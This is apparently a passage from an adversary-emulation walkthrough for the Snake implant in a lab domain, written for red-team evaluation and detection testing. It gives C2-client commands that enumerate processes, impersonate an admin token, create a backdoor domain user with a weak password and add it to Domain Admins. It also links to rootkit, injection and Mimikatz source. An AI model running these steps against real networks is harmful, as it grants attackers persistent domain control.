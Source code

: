 * Spend a couple minutes reading through any unread emails to wait for the implant to start beaconing back to the C2 server.

:arrow_right: Return to the Kali C2 terminal window and verify that a new implant session is beaconing back to the C2 server. 

* From the lower terminal window, task Snake to enumerate running processes on the machine to discover processes under `ZilvinasAdmin`.
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 3, "proc": "tasklist.exe", "args": "/v"}'
```
* :heavy_exclamation_mark: Verify that we find processes running under `ZilvinasAdmin`

```bash
grep 'NK\\ZilvinasAdmin' logs.txt -i 
```

> This should return output similar to the following:
>
>```
>powershell.exe                8152 RDP-Tcp#2                  3     83,280 K Unknown         NK\ZilvinasAdmin                                        0:00:00 N/A
>conhost.exe                    312 RDP-Tcp#2                  3     17,356 K Unknown         NK\ZilvinasAdmin                                        0:00:00 N/A
>```


* Wait 1 minute, then instruct Snake to create a new domain user `Leshy` using an access token from one of the `ZilvinasAdmin` processes. `Leshy` will be used as a backdoor domain admin account for persistence on the domain.
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "net user leshy Password12345 /add /domain", "runas": "nk\\zilvinasadmin"}'
```

* Wait 1 minute, then instruct Snake to add `Leshy` to the `Domain Admins` group.
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "net group \"Domain Admins\" leshy /add /domain", "runas": "nk\\zilvinasadmin"}'
```

### :moyai: Source Code

* [Snake Installer](SnakeInstaller_README.md)
  * [Privilege Escalation](privesc.cpp#L179)
  * [Disable DSE and Load Rootkit](main.cpp#L63)
  * [Start Snake Rootkit Driver](driver.cpp#L111)
* [Snake Rootkit](Snake_README.md)
  * [Driver](driver.c#L76)
  * [Function Hooking](hooks.c#L31)
    * [Infinity Hook](libinfinityhook_README.md)
  * [Drop DLL](filesystem.cpp#L22)
  * [Trigger injection on network request](wfp.cpp#L276)
  * [Inject Usermodule DLL](inject.cpp#L30)
* [Snake Usermodule DLL](UserModule_README.md)
  * [C2 communications over HTTP](comms_http.cpp#L237)
  * [Task download](comms_http.cpp#L237)
  * [Task execution for generic process](execute.cpp#L406)
  * [Task execution via cmd with optional token impersonation](execute.cpp#L337)
  * [Token duplication](execute_token.cpp#L284)
  * [Payload download](comms_http.cpp#L604)
  * [File Upload](comms_http.cpp#L359)
* [Mimikatz](Resources_Mimikatz.)
